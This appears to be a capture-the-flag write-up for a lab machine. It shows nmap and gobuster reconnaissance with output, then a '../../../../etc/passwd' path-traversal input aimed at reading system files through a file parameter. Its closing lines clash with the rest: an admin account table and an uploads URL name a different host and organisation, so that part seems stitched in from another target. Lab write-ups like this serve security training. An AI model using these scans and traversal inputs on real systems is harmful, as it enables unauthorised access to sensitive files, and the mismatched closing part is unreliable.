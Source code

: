 ## ----------->> PathFinder <<-----------

// Start Enumerate with nmap 

    $ nmap -sC -Pn -A -sV 10.10.10.55 -p-
    Nmap scan report for 10.10.10.55
    Host is up (0.36s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    | http-title: Site doesn't have a title (text/html; charset=UTF-8).
    |_Requested resource was http://10.10.10.55/?file=index.php

// navigating to http://10.10.10.55 redirects us to http://10.10.10.55/?file=index.php

// we will scan UDP also

    $ sudo nmap -sU -v 10.10.10.55
    Nmap scan report for 10.10.10.55
    Host is up (0.15s latency).
    Not shown: 995 closed ports
    PORT      STATE         SERVICE
    69/udp    open|filtered tftp
    764/udp   open|filtered omserv
    16402/udp open|filtered unknown
    34861/udp open|filtered unknown
    37144/udp open|filtered unknown
    
// Direction search with gobuster

    $ gobuster dir -u http://10.10.10.55/ -w /usr/share/wordlists/dirb/common.txt -q -n -e
    http://10.10.10.55/.hta                 [Size: 276]
    http://10.10.10.55/.htaccess            [Size: 276]
    http://10.10.10.55/.htpasswd            [Size: 276]
    http://10.10.10.55/fonts                [Size: 310] [--> http://10.10.10.55/fonts/]
    http://10.10.10.55/images               [Size: 311] [--> http://10.10.10.55/images/]
    http://10.10.10.55/index.php            [Size: 304] [--> http://10.10.10.55/]       
    http://10.10.10.55/server-status        [Size: 276]    

// not much on gobuster so we open burpsuite and sent the request to reapter 
// then we change input to ../../../../etc/passwd
![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Included/1.png)



Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com

// When navigating to uploads (http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads) we get error due privilleges


